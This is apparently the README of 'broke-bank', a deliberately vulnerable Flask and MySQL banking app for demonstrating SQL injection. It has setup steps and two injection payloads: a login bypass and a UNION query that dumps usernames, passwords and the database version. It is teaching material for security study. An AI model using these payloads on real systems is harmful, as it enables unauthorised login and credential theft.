 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

## 1. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

## 2. Create and activate virtual environment (optional, recommended)
   
macOS/Linux:
```shell
python -m venv .venv && source .venv/bin/activate
```
Windows:
```shell
python -m venv .venv && .venv\Scripts\activate
```

## 3. Install dependencies
```shell
pip install -r requirements.txt
```

## 4. Create .env file for environment variables (place in /broke-bank/)
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=username_here
MYSQL_PASSWORD=password_here
```

## 5. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

